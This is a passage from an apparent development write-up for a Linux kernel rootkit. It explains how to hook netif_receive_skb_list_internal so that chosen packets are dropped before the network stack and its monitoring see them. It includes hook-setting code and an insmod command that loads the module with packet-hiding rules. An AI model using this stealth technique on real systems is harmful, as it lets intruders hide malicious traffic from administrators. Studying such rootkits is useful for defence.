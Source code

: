 # Nootkit Section 5 - Hiding Packets

The network stack. I have no jokes at the moment might add some later.

Pretty much ALL of the relevant code which goes into packet RX/TX is explained well in
[this amazing document](https://blog.packagecloud.io/monitoring-tuning-linux-networking-stack-receiving-data/).
I want to thank the folks at Google, and God, for helping me find it.
The doc describes kernel version 3.13.0, however I'm assuming nothing much that is essential to the described structure
has changed.

## Packet RX Hook Location

Our goal here is to find a place where we can:

a. Place a filter for packet data.
b. Drop a packet or pass it along regularly.
c. Avoid as many registering mechanisms in the kernel to reduce the visibility of our filtered packets.

### `__netif_receive_skb_core`

This is the function which is (eventually) called by network device drivers and is responsible for
delivering skbs to protocol handlers. We can see it doing just that here:

```C
static int __netif_receive_skb_core(
    struct sk_buff **pskb,
    bool pfmemalloc,
    struct packet_type **ppt_prev)
{
    // ...

    /* Incrementing softirq counter, processing XDP generic BPF */
    __this_cpu_inc(softnet_data.processed);

    if (static_branch_unlikely(&generic_xdp_needed_key)) {
        int ret2;

        migrate_disable();
        ret2 = do_xdp_generic(rcu_dereference(skb->dev->xdp_prog), skb);
        migrate_enable();

        if (ret2 != XDP_PASS) {
            ret = NET_RX_DROP;
            goto out;
        }
    }

    /* Removing VLAN tag? */
    if (eth_type_vlan(skb->protocol)) {
        skb = skb_vlan_untag(skb);
        if (unlikely(!skb))
            goto out;
    }

    // ...

    /* packet delivery to registered protocol hanlers */
    list_for_each_entry_rcu(ptype, &ptype_all, list) {
        if (pt_prev)
            ret = deliver_skb(skb, pt_prev, orig_dev);
        pt_prev = ptype;
    }

    list_for_each_entry_rcu(ptype, &skb->dev->ptype_all, list) {
        if (pt_prev)
            ret = deliver_skb(skb, pt_prev, orig_dev);
        pt_prev = ptype;
    }
    // ...
}
```

Note: _Comments mine_

At first I though it could be nice to just integrate with the exported framework and add a
protocol handler in the `ptype_all` handler list using `dev_add_pack`. However, there is would be some stuff
happening before _and_ after handing packets to our handler, namely:

a. XDP (Generic) BPF seems to be called into action before the protocol handlers.
b. VLAN tags seem to be removed (what if we want to filter based on them?).
c. _Other_ protocol handlers aren't prevented from being called after ours.

So a protocol handler isn't the way - we aren't just another `AF_PACKET`. We have to go deeper. Or higher? Or lower. Many terms fit.
We could:

a. Hook `__netif_receive_skb_core`.
b. Find a function higher up the call stack to hook/integrate with.

Since our current function hooking method requires copying a hunk of the kernel source code to our module,
and I don't like that (since it requires more hacky kallsyms resolutions etc.), I'd rather try and find
another function.

### `netif_receive_skb`

This exported symbol is _the_ thing that gets called by specific drivers' packet RX code:

```C
/**
 *  netif_receive_skb - process receive buffer from network
 *  @skb: buffer to process
 *
 *  netif_receive_skb() is the main receive data processing function.
 *  It always succeeds. The buffer may be dropped during processing
 *  for congestion control or by the protocol layers.
 *
 *  This function may only be called from softirq context and interrupts
 *  should be enabled.
 *
 *  Return values (usually ignored):
 *  NET_RX_SUCCESS: no congestion
 *  NET_RX_DROP: packet was dropped
 */
int netif_receive_skb(struct sk_buff *skb)
{
    int ret;

    trace_netif_receive_skb_entry(skb);

    ret = netif_receive_skb_internal(skb);
    trace_netif_receive_skb_exit(ret);

    return ret;
}
```

It's exported (so always present, no inlining possible), has access to an skb before handing passing it to the rest of the
network stack, can drop packets, _and_ is rather short (hopefully we won't have to copy too many macros). I love it!

## Hooking `netif_receive_skb`

Again, as our current hooking method requires copying kernel code, we have to do as much work as the compiler
did inlining kernel functions. And for each inline we are hacking away by copying it's source code,
we have more ksyms to resolve to implement said inlined function.

A shame, but not one we'll endure forever - see my [proposed method for generic CISC hooking](./generic_CISC_hooking.md)
which I hope I'll get to implement here in `nootkit`, which would simplify hooking a lot.

But after fiddling around with it and getting it to compile, we get... nothing. Weird. Hooking `netif_receive_skb`
does nothing - we can place a jump to NULL at the start of the function and nothing happens.
And it is so also for `__netif_receive_skb`. Verifying that we are hooking the correct address did not help,
as it seems to be correct... Is it not truly called? Is something different now?

We can even make `__netif_receive_skb` just be a printk, and then call it from within the module, and it works.
It just isn't called by the system for some reason.

I have two ideas as to why this happens:

1. `netif_receive_skb` is not used by any driver on my VM - maybe `netif_rx` is used instead.
2. `netif_receive_skb` is only called from within the softirq kthreads - perhaps their memory is copy on write
    and our hooking did not affect their address spaces?

I tested the first theory by hooking `netif_rx` and failed.

The second theory sounds a little weird, but maybe? I'm not sure if it's possible, but don't have other explainations.

I decided to try the only true way to life - brute force. I set a hook to print stuff on every function which looked the part:

```C
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_core.constprop.0"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_list_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_list_internal"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_list"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb_one_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb_core"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("__netif_receive_skb"), &hooked);
hook_set(ksyms__kallsyms_lookup_name("netif_receive_skb"), &hooked);
```

And indeed packets stopped being received, and stuff was printed. Now we just have to find the culprits.
With a human binary search, it only took 3 tries! It's `netif_receive_skb_list_internal` which works.

But why?

Even hooking the damn `netif_receive_skb_list` which supposedly calls this internal thingy doesn't work.
The only other place that calls the internal is... `gro_normal_list`. GRO is that u again?
Welp turning off GRO didn't help, but was worth a try.

Anyway.

I'm guessing this `_list` thing is just a newer API, and ALLLL the new fancy drivers use it. I am slightly enraged,
but it brought with it a cathartic experience: The hook compiles and runs.

To drop a packet we can call:

```C
skb_list_del_init(skb);
continue;
```

From within the `list_for_each_entry_safe(skb, next, head, list)` for loop in `netif_receive_skb_list_internal`.
I found this out from following calls in the kernel source code until I saw this bit:

```C
static inline void __netif_receive_skb_list_ptype(struct list_head *head,
    struct packet_type *pt_prev,
    struct net_device *orig_dev)
{
    // ...
    list_for_each_entry_safe(skb, next, head, list) {
        skb_list_del_init(skb);
        pt_prev->func(skb, skb->dev, pt_prev, orig_dev);
    }
    // ...
}
```

Which seemed to be rather final in the flow. I can't tell for sure at the moment if we're not causing a memory leak,
but I'll leave that as a TODO for now.

## Implementation

For the end implementation see [src/hide/net.c](../src/hide/net.c).

I reused and updated the existing connection configuration mechanism to include all sorts of stuff we can filter packets by -
here for example is how we can filter out all ARP packets, in addition to packets directed to TCP destination ports 1300-1350:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```
